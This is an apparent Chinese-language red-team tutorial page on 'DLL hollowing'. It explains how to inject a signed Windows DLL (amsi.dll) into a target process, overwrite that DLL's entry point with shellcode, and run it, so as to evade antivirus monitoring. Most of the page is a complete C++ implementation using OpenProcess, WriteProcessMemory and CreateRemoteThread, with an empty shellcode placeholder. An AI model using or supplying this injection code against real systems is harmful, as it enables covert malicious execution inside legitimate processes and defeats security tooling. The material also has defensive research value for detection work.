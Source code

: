 # DLL Hollowing

## 简介

模块镂空\(dll hollowing\)也是一种shellcode注入技术，原理和思路与process hollowing类似，通过合法的模块信息来伪装恶意代码，虽然我们可以用远程dll注入来完整注入整个恶意dll，但此类注入往往比较容易检测，我们需要往受害者主机上传入一个恶意dll，这样杀毒软件可以通过监控入windows/temp/等目录实现对远程dll注入的拦截，而模块镂空就不会存在这样的风险，因为我们镂空的往往是一个带有微软签名的dll，为了防止进程出错，我们并不能直接镂空一个进程空间中已存在的dll，需要先对目标进程远程注入一个系统合法dll，然后再镂空它，这样我们就获得了一个和windows模块相关联的shellcode环境。

## 实现思路

1. 远程注入一个系统dll\(原理参考[CreateRemoteThrea](createremotethread.md)的dll注入\)
2. 获取该模块在目标进程中的虚拟地址
3. 定位模块的入口点
4. 使用shellcode复写入口点
5. 创建远程线程

## 代码实现

```text
#include <iostream>
#include <Windows.h>
#include <psapi.h>

char shellcode[] = "";

int main(int argc, char* argv[])
{
	
	
	TCHAR ModuleName[] = L"C:\\windows\\system32\\amsi.dll";
	HMODULE hModules[256] = {};
	SIZE_T hModulesSize = sizeof(hModules);
	DWORD hModulesSizeNeeded = 0;
	DWORD moduleNameSize = 0;
	SIZE_T hModulesCount = 0;
	CHAR rModuleName[128] = {};
	HMODULE rModule = NULL;

	// inject a benign DLL into remote process
	//hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 2924);

	LPVOID lprBuffer = VirtualAllocEx(hProcess, NULL, sizeof ModuleName, MEM_COMMIT, PAGE_READWRITE);
	WriteProcessMemory(hProcess, lprBuffer, (LPVOID)ModuleName, sizeof ModuleName, NULL);
	PTHREAD_START_ROUTINE threadRoutine = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	HANDLE dllThread = CreateRemoteThread(hProcess, NULL, 0, threadRoutine, lprBuffer, 0, NULL);
	WaitForSingleObject(dllThread, 1000);

	// find base address of the injected benign DLL in remote process
	EnumProcessModules(hProcess, hModules, hModulesSize, &hModulesSizeNeeded);
	hModulesCount = hModulesSizeNeeded / sizeof(HMODULE);
	for (size_t i = 0; i < hModulesCount; i++)
	{
		rModule = hModules[i];
		GetModuleBaseNameA(hProcess, rModule, rModuleName, sizeof(rModuleName));
		if (std::string(rModuleName).compare("amsi.dll") == 0)
		{
			break;
		}
	}

	// get DLL's AddressOfEntryPoint
	DWORD headerBufferSize = 0x1000;
	LPVOID peHeader = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, headerBufferSize);
	ReadProcessMemory(hProcess, rModule, peHeader, headerBufferSize, NULL);

	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)peHeader;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)peHeader + dosHeader->e_lfanew);
	LPVOID dllEntryPoint = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD_PTR)rModule);

	// write shellcode to DLL's AddressofEntryPoint
	WriteProcessMemory(hProcess, dllEntryPoint, (LPCVOID)shellcode, sizeof(shellcode), NULL);

	// execute shellcode from inside the benign DLL
	CreateRemoteThread(hProcess, NULL, 0, (PTHREAD_START_ROUTINE)dllEntryPoint, NULL, 0, NULL);

	return 0;
}
```

